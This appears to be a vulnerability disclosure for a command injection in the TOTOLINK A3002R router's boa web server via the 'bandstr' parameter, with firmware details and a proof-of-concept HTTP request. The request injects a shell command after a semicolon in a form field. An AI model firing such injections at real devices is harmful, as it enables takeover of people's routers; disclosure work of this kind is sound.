 # totolink_A3002R_remote_command_exec
**description**: a Remote-Command-Execution  in /bin/boa on totolink A3002R-V4.0.0-B20230531.1404 via parameter bandstr


## Firmware
**brand**:totolink   

**product**:A3002R-V4 

**version**:V4.0.0-B20230531.1404

**addr**:0045a2a4
fun:FUN_0045a1f8

The firmware can be downloaded from this website[1] and using FirmAE to simulate the router environment.   
The command is 

![alt text](./img/image-2.png)

# poc
burp suite change the packet as follow
```
POST /boafrm/formMapDelDevice HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 146

Origin: http://192.168.0.1

Connection: close

Referer: http://192.168.0.1/map_del_device

Upgrade-Insecure-Requests: 1



sessionCheck=5ef3b954a1316eeedf1d36330046c0ca&submit-url=%2FformMapDelDevice.htm&macstr=123&clientoff=no&bandstr=123;echo%20123456%20>/tmp/rec1.txt
```
![alt text](./img/image.png)
[1]:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/258/ids/36.html
